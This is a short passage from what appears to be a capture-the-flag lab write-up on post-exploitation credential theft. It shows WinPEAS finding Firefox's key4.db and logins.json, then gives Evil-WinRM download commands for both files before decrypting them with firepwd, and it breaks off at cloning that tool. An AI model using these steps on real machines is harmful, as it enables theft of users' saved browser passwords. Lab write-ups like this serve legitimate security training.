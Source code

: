 

after running winpeas.exe, we got the following:
```
    Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db

```

which satisfies that: the file  contains encrypted passwords stored in Firefox.




  
WinPEAS just dropped a **Firefox credentials file** on you:

```
C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\
│
├── key4.db   🔐
├── logins.json   🔐
```

  

---

**🧠 What This Means:**

  

Firefox stores **saved passwords** in:

• logins.json → contains encrypted usernames & passwords

• key4.db → contains the encryption key

  

If you have **both files**, you can decrypt **all saved Firefox credentials** 😈

---

**✅ Step-by-Step: Extract and Crack Firefox Passwords**

  

**🔹 1. Download both files via Evil-WinRM**

```
download "C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\logins.json"
download "C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db"
```



---

**🧠 🔹 2. On Kali, use firepwd (instead of firefox_decrypt)**

  

**✅ Clone the tool:**
